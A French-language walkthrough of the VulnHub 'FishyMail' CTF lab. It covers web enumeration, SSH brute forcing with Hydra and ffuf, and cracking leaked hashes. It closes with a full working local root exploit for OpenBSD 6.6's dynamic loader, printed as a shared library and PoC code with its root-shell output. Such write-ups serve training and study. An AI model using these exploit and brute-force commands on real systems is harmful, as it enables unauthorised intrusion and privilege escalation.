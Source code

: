 ```yaml
---
title: "Solution du CTF FishyMail de VulnHub"
tags: [CTF, VulnHub]
---
```


[FishyMail](https://vulnhub.com/entry/fishymail-1,583/) était assez étrange d'abord par un jeu de pistes moyen au départ puis une escalade de privilèges à effectuer... sur du OpenBSD, ce qui est très rare sur un CTF.

## Spontex

Une bonne partie des ports sont customs :

```
Nmap scan report for 192.168.56.203
Host is up (0.00097s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
25/tcp   closed smtp
80/tcp   closed http
443/tcp  closed https
2600/tcp open   ssh     OpenSSH 8.1 (protocol 2.0)
| vulners: 
|   cpe:/a:openbsd:openssh:8.1: 
|       CVE-2020-15778  6.8     https://vulners.com/cve/CVE-2020-15778
|       C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3    6.8     https://vulners.com/githubexploit/C94132FD-1FA5-5342-B6EE-0DAF45EEFFE3  *EXPLOIT*
|       10213DBE-F683-58BB-B6D3-353173626207    6.8     https://vulners.com/githubexploit/10213DBE-F683-58BB-B6D3-353173626207  *EXPLOIT*
|       CVE-2021-41617  4.4     https://vulners.com/cve/CVE-2021-41617
|       CVE-2019-16905  4.4     https://vulners.com/cve/CVE-2019-16905
|       CVE-2020-14145  4.3     https://vulners.com/cve/CVE-2020-14145
|       CVE-2016-20012  4.3     https://vulners.com/cve/CVE-2016-20012
|_      CVE-2021-36368  2.6     https://vulners.com/cve/CVE-2021-36368
3306/tcp open   mysql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, Help, Kerberos, NULL, RPCCheck, RTSPRequest, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServerCookie, X11Probe: 
|_    Host '192.168.56.1' is not allowed to connect to this MariaDB server
8080/tcp open   http    Apache httpd 2.4.43 ((Unix))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-server-header: Apache/2.4.43 (Unix)
| http-enum: 
|   /login/: Login page
|_  /robots.txt: Robots file
```

Dans le `robots.txt` on trouve 3 entrées :

```
User-agent: *
Disallow:
/spongebob
/dataentry
/fishymailer
```

Il y a le fichier `/fishymailer/notes.txt` qui semble intéressant, car il donne deux noms d'utilisateurs.

> Spongebob our friend dirtysalmon really needs to take a moment to check his mail. We have a fishymail problem on the system.

À l'aide d'une énumération web j'ai trouvé un dossier `/login` où se trouve un formulaire de connexion.

J'ai procédé à une attaque par force brute qui n'a mené nulle part :

```bash
ffuf -u http://192.168.56.203:8080/login/action_page.php -d 'uname=dirtysalmon&psw=FUZZ&remember=on' -H 'Content-Type: application/x-www-form-urlencoded' -w wordlists/rockyou.txt  -fs 114
```

J'ai ensuite énuméré le dossier `/dataentry`. Celui-ci n'a pas le directory listing activé, il affiche juste une photo de chat.

Il faut énumérer récursivement les dossiers et à chaque fois, on a droit à une nouvelle image de chat.

Au bout d'un moment je trouve fichier `/dataentry/backup/admin/files/dir.txt` qui contient du base64. Une fois décodé il donne ceci :

> Mail Login:  
> 
> spongebob
> Sandy 
> 
> squidward
> 0ctopus
> 
> patrick
> chocolateflavoredWATER
> 
> dirtysalmon
> chinook

Il y a aussi des fichiers `list.txt` et `employees.txt` mais ils ne semblent pas contenir d'informations utiles au CTF.

## Kcoquille

```console
$ hydra -L users.txt -P pass.txt -e nsr ssh://192.168.56.203:2600
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28 login tries (l:4/p:7), ~2 tries per task
[DATA] attacking ssh://192.168.56.203:2600/
[2600][ssh] host: 192.168.56.203   login: squidward   password: 0ctopus
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished
```

Avec `Hydra` je teste les utilisateurs et mots de passe. On en obtient un valide.

Une fois connecté on semble être dans un chroot. Il n'y a quasi rien à la racine et on dispose d'un dossier `bin` avec quelques binaires.

```console
fishymail$ ls /     
BikiniBottom-db.sql  bin                  squidward
fishymail$ pwd
/squidward
```

Le fichier sql contient du base64 qui se décode en un script PHP :

```php
<?php
$session = mysql_xdevapi\getSession("mysqlx://user:password@localhost");

$session->sql("DROP DATABASE IF EXISTS BikiniBottom")->execute();
$session->sql("CREATE DATABASE BikiniBottom")->execute();
$session->sql("CREATE TABLE BikiniBottom.names(name text, password text)")->execute();
$session->sql("INSERT INTO addressbook.names values ('spongebob', ‘d686a53fb86a6c31fa6faa1d9333267e’), ('squidward', ‘ab404e807c1fdf281a74f7a1e7c458a4’), ('patrick', ‘af0fadc5ebbcc10a98301a92e4fc248c’), ('dirtysalmon', ‘7efcfa392716c6379a2e6b7c3739e5a3’), ('Sandy', ‘901d32488aa7079e4817c91bc2b69a4d’)")->execute();

$schema = $session->getSchema("addressbook");
$table  = $schema->getTable("names");

$row = $table->select('name', 'age')->execute()->fetchAll();

print_r($row);
?>
```

J'ai soumis les hashes à `crackstation.net` et obtenu les résultats suivants :

```
spongebob / sandy
squidward / 0ctopus
dirtysalmon / crabby4eva
Sandy / astronaut
```

C'est reparti pour un tour de brute force :

```
[2600][ssh] host: 192.168.56.203   login: dirtysalmon   password: crabby4eva
```

Ce nouveau compte a un flag dans son dossier personnel :

```
Dont forget your flag ;)

14JrufQjVSvlKXY2u0Ct8mIoyrpDrj0tW2Dh82DYl2VN
```

Je découvre aussi qu'on est sur un système OpenBSD comme pour le CTF [Ypuffy de HackTheBox]({% link _posts/2019-02-09-Solution-du-CTF-Ypuffy-de-HackTheBox.md %}). Je ne sens pas tout à fait à mon aise, car pas mal de commandes et concepts sont différents.

```console
fishymail$ ls /
altroot    bin        boot       bsd        bsd.booted bsd.rd     dev        etc        home       lost+found mnt        root       sbin       sys        tmp        usr        var
```

Dans tous les cas j'observe que l'on est membre du groupe `wheel` et je peux lire le fichier de configuration de MySQL :

```console
fishymail$ id
uid=1000(dirtysalmon) gid=1000(dirtysalmon) groups=1000(dirtysalmon), 0(wheel)
fishymail$ ls -al /etc/my.cnf  
-rw-r--r--  1 root  wheel  464 Sep 27  2020 /etc/my.cnf
```

J'y trouve un mot de passe, mais ce dernier ne permet pas de passer root.

```ini
# This will be passed to all MariaDB clients
[client]
#password=MrKrabShack@@@
```

Il fonctionne bien pour l'accès à MySQL mais je n'ai rien trouvé de valeur à l'intérieur.

Je parviens à déterminer la version d'OpenBSD :

```console
fishymail$ uname -rms
OpenBSD 6.6 amd64
```

_Qualys_ a trouvé une vulnérabilité qui devrait correspondre à cette version : [OpenBSD 6.x - Dynamic Loader Privilege Escalation - OpenBSD local Exploit](https://www.exploit-db.com/exploits/47780).

Je tente de reproduire l'exploitation :

```console
fishymail$ cd /tmp/                                                                                                                                                                                              
fishymail$ cat > lib.c << "EOF"
> #include <paths.h>
> #include <unistd.h>
> 
> static void __attribute__ ((constructor)) _init (void) {
>     if (setuid(0) != 0) _exit(__LINE__);
>     if (setgid(0) != 0) _exit(__LINE__);
>     char * const argv[] = { _PATH_KSHELL, "-c", _PATH_KSHELL "; exit 1", NULL };
>     execve(argv[0], argv, NULL);
>     _exit(__LINE__);
> }
> EOF
fishymail$ gcc -fpic -shared -s -o libutil.so.13.1 lib.c
fishymail$ cat > poc.c << "EOF"
> #include <string.h>
> #include <sys/param.h>
> #include <sys/resource.h>
> #include <unistd.h>
> 
> int
> main(int argc, char * const * argv)
> {
>     #define LLP "LD_LIBRARY_PATH=."
>     static char llp[ARG_MAX - 128];
>     memset(llp, ':', sizeof(llp)-1);
>     memcpy(llp, LLP, sizeof(LLP)-1);
>     char * const envp[] = { llp, "EDITOR=echo '#' >>", NULL };
> 
>     #define DATA (ARG_MAX * sizeof(char *))
>     const struct rlimit data = { DATA, DATA };
>     if (setrlimit(RLIMIT_DATA, &data) != 0) _exit(__LINE__);
> 
>     if (argc <= 1) _exit(__LINE__);
>     argv += 1;
>     execve(argv[0], argv, envp);
>     _exit(__LINE__);
> }
> EOF
fishymail$ gcc -s -o poc poc.c
fishymail$ ./poc /usr/bin/chpass
fishymail# id
uid=0(root) gid=0(wheel) groups=1000(dirtysalmon), 0(wheel)
fishymail# cd /root
fishymail# ls
.Xdefaults .cshrc     .cvsrc     .forward   .login     .profile   .ssh       .viminfo   proof.txt
fishymail# cat proof.txt                                                                                                                                                                                         
gx7Cc3rsxkDYlOrWnqG2SPND/fMvnRifshoD2HuDsWZs
```

Ça fonctionne :)
